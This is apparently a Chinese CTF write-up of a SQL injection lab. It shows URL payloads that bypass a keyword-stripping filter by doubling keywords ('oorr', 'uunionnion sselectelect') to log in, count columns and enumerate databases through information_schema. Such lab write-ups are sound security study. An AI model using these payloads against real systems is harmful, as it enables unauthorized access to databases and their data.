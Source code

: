 用户名输入admin,密码栏输入万能密码`amin'or'1`，发现不对，NO,Wrong username password！！！【==**后续发现这里就可以猜出是replace了关键字，不然不可能回显密码错误，而应该爆出账号密码**==】

密码输入`admin'`，回显error，密码输入`amin'#`，回显NO,Wrong username password！！！，说明密码这存在字符注入

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/img/image-20220218143127168.png" alt="image-20220218143127168" style="zoom:67%;" />

用户名输入`1′ or 1=1 or '1'='1`，密码admin，回显Error，说明用户名出存在字符注入

![image-20220218142842677](https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/img/image-20220218142842677.png)

但是这个回显为什么只回显一部分?不懂，搜wp猜测是删掉了关键词

比如password输入or，回显没输入password，说明删掉了（过滤）关键词or，`oror`，也不行，`oorr`可以绕过，印证猜测，就是把关键词换位空

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/img/image-20220220222121231.png" alt="image-20220220222121231" style="zoom: 50%;" />

然后重新输入万能密码，发现成功登录

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/img/image-20220221001708538.png" alt="image-20220221001708538" style="zoom:50%;" />

```
check.php?username=admin&password=admin' oorr '1'='1
```



1. 猜测列数，order和by都被过滤==》双写

   ```
   check.php?username=admin&password=1'oorrder bbyy 4 --+  //报错Unknown column '4' in 'order clause'
   check.php?username=admin&password=1'oorrder bbyy 3--+  //NO,Wrong username password！！！说明有3列
   ```

2. 猜测位置，同理，只输入union select 1,2,3，报错version for the right syntax to use near '1,2,3-- '' at line 1，说明<span style="background:#FF9999;">吞了</span>union和select，同样用双写绕过

   <img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/img/image-20220220233828652.png" alt="image-20220220233828652" style="zoom:67%;" />

   ```
   check.php?username=admin&password=1'uunionnion sselectelect 1,2,3--+  //发现回显位置2,3
   ```

   3. 爆数据库名：geek

      ```
      check.php?username=admin&password=1'uunionnion sselectelect 1,database(),3--+
      ```

   4. 爆所有库：Your password is 'information_schema,mysql,performance_schema,test,ctf,geek'  //可疑库：ctf

      ```
      check.php?username=admin&password=1'uunionnion sselectelect 1,2,group_concat(schema_name) ffromrom infoorrmation_schema.schemata--+  // use near '.schemata,3-- '' at line 1
      ```

      **注意❗information.schema被过滤可能因为information里的or，而不是整个information被过滤**

#### 如何测试那些关键词被过滤？用什么代替？

